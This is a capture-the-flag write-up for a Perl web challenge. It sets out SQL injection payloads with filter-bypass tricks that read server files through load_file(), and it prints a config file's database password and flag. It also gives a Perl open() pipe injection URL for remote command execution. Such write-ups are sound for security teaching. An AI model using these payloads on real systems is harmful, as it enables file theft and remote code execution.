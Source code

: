 We need to upload a PGP public key file so the website will parse it.
The PGP can contain an SQLi in the email field. Michael A. wrote a script to make everything easier, 
The trick will now be the SQLi itself.

At first, we thought about fetching the users so we could use an activated user perhaps. 
To do this we must first find which table stores them.

## Basic SQLi
The server doesn't sanitize ', so we can just easily inject code.
However, the server does sanitize "union" and "select" among some special characters - the easiest way to check is entering 
a valid SQL query with testing AFTER the comment.

for instance the query

  email = "A' or 1 # union select ()<>?!%= "

Will return something along 
	"A' or 1 #<" 
(so just < isn't sanitized here)

**Incidentily every character is sanitized only once**, so

  email = "A' or 1 # == "

will return

  "A' or 1 # = "

## Getting the users table/columns (Ultimately not useful)  
[This](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet1 
) cheatsheet contains a lot of useful queries, like how to get a list of the tables and of columns:

To get (All) the tables we use:

  ```email = "A' UNunionION SELselectECT table_name,1,1,1,1 FROM information_schema.tables # "```

"table_name" has to be first, because only the first column is shown to the user.

The last table in the response is :

```"information_schema.tables # </br>[different key]</br>
(accounts) A' UNION SELECT table_name,1,1,1,1 FROM"```

So we can see the table name is "accounts"

To get all the coulmns from all of the tables we use:


  email = "A' UNunionION SELselectECT column_name,1,1,1,1 FROM information_schema.columns # "
  
Which returns 

 ```information_schema.columns # </br>[different key]</br>
(path) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(user_id) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(pass) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(activated) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>```


Too bad there are no activated users, which can be verified with 

  ```email = "A' UNunionION SELselectECT activated,1,1,1,1 FROM accounts"```

Trying to insert an activated user or to update one also didn't work...

## Solution

We're interested in the source code, but to know where it is we need to check lighttpd.conf first - because the website is powered by lighttpd.
We can't deliver straight ASCII, because we might have characters which will bang the SQL query.

We can use mySQL's load_file() to load a file, and hex() to encode it into hex:

So to get the [configuration](lighttpd.conf) we can use the following query:

```email = "A' UNunionION SELselectECT ()hex(load_file('/etc/lighttpd/lighttpd.conf')),1,1,1,1 #"```

The result contains the name of our [index page (source)](index.pl), to get it we use:

```email = "A' UNunionION SELselectECT ()hex(load_file('/var/www/html/public/index.pl')),1,1,1,1 #"```

Inside we can see that the flag is loaded from '../private/config.ini', so we get the flag:

```email = "A' UNunionION SELselectECT ()hex(load_file('/var/www/html/private/config.ini')),1,1,1,1 #"```

which gives us:

>[Database] Password=BlulS@ablul [CTF] Flag=ILov3P3rl43v3r



## RCE

Inside the index page there are no execute() or system() functions, so RCE is not really straight forward.
However, googling for "perl rce" landed me on [this](http://www.cgisecurity.com/lib/sips.html) page, which includes a section about how open() can be used for RCE:
>If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us.

open() is being called from the get_template subroutine:

	sub get_template {
		my $filename = shift;

		open (FILE, $filename);
		my $output = <FILE>;
		close(FILE);

		return $output;
	}

Which is being called from  print_template:

	sub print_template {
		my $filename = shift;

		print get_template($filename);
	}

This function is called 3 times, each time with an argument from the list :

	my %templates = (
		header => 'templates/header.html',
		footer => 'templates/footer.html',
		form => 'templates/form.html',
		error => $query->param('error')
	);

"error" can be injected into, in the form of a parameter.
Perl has a weird way of expanding hashes, as I learned from [this](http://www.youtube.com/watch?v=noQcWra6sbU&t=6m33s) talk .

We can use the same method to insert an arbitrary command to open.
Any of the other variables (header, footer or form) can be replaced with a command in the following way:
`http://\<IP\>/public/index.pl?error=e&error=form&error=|ls`

Where the second parameter will be the variable we want to inject into, and the third will be the command executed. 
We get the output piped to us.



